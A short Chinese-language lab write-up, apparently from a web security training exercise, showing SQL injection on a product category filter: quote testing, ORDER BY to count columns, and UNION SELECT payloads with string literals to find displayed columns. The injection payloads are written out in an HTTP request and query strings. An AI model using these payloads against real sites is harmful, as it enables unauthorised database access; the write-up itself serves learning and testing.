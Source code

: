 加两个单引号：

![image-20250626185951718](assets/image-20250626185951718.png)

判断是字符型注入

通过order by判断表的列数

```
GET /filter?category=Gifts'%20order%20by%203%20--+ HTTP/2
```

到3的时候页面出错，说明这个表有两列

判断该表的列数是因为union前后查询的列数必须保持一致，而且对应列的数据类型必须相同

判断回显位：

一开始用的是：

```
Gifts' union select 1,2--+
```

报错，用这种才行：

```
Gifts' union select 'awwwwww','bsssssssss'--+
```

![image-20250626191930298](assets/image-20250626191930298.png)
